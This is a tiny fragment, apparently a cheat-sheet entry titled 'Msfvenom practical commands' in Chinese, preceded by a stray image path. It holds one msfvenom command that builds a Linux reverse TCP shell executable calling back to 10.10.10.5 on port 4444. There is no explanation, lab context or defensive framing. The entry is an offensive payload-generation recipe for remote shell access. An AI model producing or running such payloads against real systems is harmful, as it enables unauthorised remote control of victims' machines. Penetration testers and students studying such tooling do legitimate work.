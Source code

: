 # Msfvenom 实战语句

- 

```
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf -o shell.elf
```